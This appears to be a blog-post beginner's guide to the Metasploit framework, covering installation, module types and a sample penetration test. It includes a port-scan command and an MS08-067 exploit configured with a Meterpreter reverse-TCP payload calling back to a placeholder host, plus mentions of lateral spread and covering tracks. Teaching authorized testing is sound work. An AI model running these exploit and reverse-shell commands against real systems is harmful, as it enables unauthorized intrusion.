 ```yaml
---
layout: post
title: Basic Guide to Metasploit
date: 2024-03-19
categories: ["guide", "metasploit"]
---
```

Metasploit is a powerful tool for conducting security assessments and penetration testing. It provides a robust framework for developing and executing exploit code against remote target machines. Moreover, Metasploit is equipped with a vast array of tools that can assist in the exploitation of vulnerabilities and the post-exploitation analysis of systems. This guide aims to provide a comprehensive overview of Metasploit, its core functionalities, and practical applications in ethical hacking contexts.

## Understanding Metasploit

Metasploit is more than just a single tool; it's a complete framework that allows ethical hackers to find, exploit, and validate vulnerabilities. It contains a suite of tools used for tasks ranging from reconnaissance to maintaining access to compromised systems. It's widely used by security professionals and ethical hackers to test the security of systems and applications.

### Key Components of Metasploit

- **msfconsole:** The primary interface to the Metasploit Framework. It provides an all-encompassing environment for launching exploits and managing an engagement.
- **Meterpreter:** A powerful payload that provides a command line interface to interact with a compromised system.
- **Modules:** Metasploit is modular by design, offering various modules like exploits, payloads, post-exploitation modules, and auxiliary modules for different tasks.

## Getting Started with Metasploit

### Installation

Metasploit comes pre-installed on security-focused distributions like Kali Linux. However, it can be installed on most Unix-like operating systems, including Windows under WSL (Windows Subsystem for Linux).

#### On Kali Linux

Metasploit is included out of the box in Kali Linux. Ensure it's up to date using the following commands:

```bash
sudo apt-get update
sudo apt-get upgrade
```

#### On Ubuntu/Debian:

For other Linux distributions, you can install Metasploit by first adding its repository and then installing it through the package manager:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

### Basic Usage

To start Metasploit, open your terminal and run:

```bash
msfconsole
```

This command launches the Metasploit console, an interactive shell from which you can execute commands, exploit vulnerabilities, and manage sessions.

## Exploring Metasploit Modules

Metasploit is known for its modular approach, allowing users to pick and choose components as needed. Modules are categorized into several types:

- **Exploits:** Code that takes advantage of a vulnerability in a system or application.
- **Payloads:** Code that runs on a system after an exploit successfully executes. Meterpreter is one of the most sophisticated payloads.
- **Auxiliary:** Additional tools and utilities for reconnaissance, scanning, and fuzzing.
- **Post:** Modules that are used after a successful compromise has been achieved, for actions like privilege escalation, gathering evidence, or covering tracks.

## Conducting a Penetration Test with Metasploit

### Step 1: Reconnaissance

Before exploiting vulnerabilities, you need to know what you're dealing with. Metasploit's auxiliary modules can scan networks and systems to discover open ports, services, and potential vulnerabilities.

Example command to scan a target IP for open ports:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.105
run
```

### Step 2: Choosing and Configuring an Exploit

After identifying potential vulnerabilities, select an appropriate exploit module and configure it with the target's information.

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your Local IP>
exploit
```

### Step 3: Gaining Access

Executing the exploit, if successful, will grant you access to the target system. For example, if using Meterpreter as a payload, you will have a wide range of commands at your disposal for interacting with the system.

### Step 4: Post-Exploitation

With access to the target system, you can now execute post-exploitation modules to gather more information, escalate privileges, or spread to other accessible systems on the network.

## Best Practices and Ethical Considerations

- **Permission:** Never use Metasploit on systems or networks without explicit, written permission from the rightful owner.
- **Ethics:** Use Metasploit ethically and responsibly. The goal of ethical hacking is to improve security, not to cause harm or breach confidentiality.
- **Continuous Learning:** The cybersecurity field is always evolving. Stay informed about new vulnerabilities, exploits, and defensive techniques.

## Conclusion

Metasploit is an indispensable tool in the arsenal of any security professional. Its power and flexibility in assessing the security posture of systems make it the go-to framework for penetration testers and ethical hackers. This guide has provided a primer to get started with Metasploit, from installation to conducting a basic penetration test. However, the true depth and capabilities of Metasploit can only be appreciated with continuous learning and hands-on practice. Always remember to hack ethically and with permission, using your skills to contribute to the security and safety of the digital world.
